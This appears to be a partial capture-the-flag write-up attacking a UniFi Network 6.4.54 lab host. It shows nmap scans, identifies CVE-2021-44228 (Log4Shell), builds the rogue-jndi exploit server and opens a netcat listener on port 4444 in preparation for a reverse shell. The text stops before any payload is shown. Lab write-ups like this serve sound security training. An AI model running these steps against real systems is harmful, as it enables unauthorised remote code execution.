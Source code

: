 Output :

```BASH
PORT     STATE SERVICE         VERSION
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
```

We have the sofware title that is running on port 8443 : `UniFi Network`

In the `Accessibility` section of the inspector we can see the version of the software :

![[Pasted image 20250119210902.png]]

The version is : `6.4.54`

Let's go find if there's some vulnerability. 
With google we can see there is the `CVE-2021-44228` vuln accessible for us.

With another #nmap scan we have this :

```BASH
nmap -sV 10.129.63.103 -p-
```

Output :

```BASH 
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
8443/tcp open  ssl/nagios-nsca Nagios NSCA
8843/tcp open  ssl/unknown
8880/tcp open  cddbp-alt?
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service
```

## 2. **Weaponization**

First we download the CVE :
```BASH
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

We listen on the `4444` port

```BASH
nc -lvp 4444
```

